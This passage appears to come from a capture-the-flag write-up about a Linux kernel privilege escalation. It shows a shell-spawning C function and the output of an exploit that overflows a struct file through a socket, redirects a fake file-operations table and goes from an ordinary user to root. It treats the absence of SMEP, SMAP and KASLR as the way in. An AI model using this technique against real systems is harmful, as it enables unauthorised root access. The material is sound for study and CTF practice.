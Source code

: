 ```c
    }
    [...]
}
```

The good thing is that there is no smep, smap or kaslr enabled. Therefore we can directly call escalate function in userland which will increase our proccess privilages. Then we can just pop shell

```c
void pop_shell() {
    printf("\t[+] Poping shell... have fun!\n");
    system("/bin/sh");
    printf("\t[ ] Had fun?\n");
    exit(0);
}
```

### POC
[Full exploit](exploit.c)

```c
/ $ id
uid=1000(servr) gid=1000(servr) groups=1000(servr)
/ $ ./exploit
*** Starting Exploit ***
[ ] Initializing...
	[+] Created socket
	[+] Connected to server
	[i] Address of g_fake_fops: 0x6be540
	[i] Address of escalate function: 0x400b7f
	[i] Address of g_escalated: 0x6be728
[+] Succeeded to initialize
[ ] Overflowing struct file...
	[+] Send msg
[+] Finished overflow phase, can't be sure yet if we succeeded
[ ] Sleeping... (if kernel panic now, it means we overflowed not ours stuct) 0 1 2
[ ] Triggering exploit...
[+] Exploit succeeded
	[+] Poping shell... have fun!
/ # id
uid=0(root) gid=0(root)
```

Note: Unfortunetely there is something I'm missing and the kernel panics just after executing first command (so I'm able to read a flag, but it wouldn't be very usefull in real life). I will update it after I find a bug.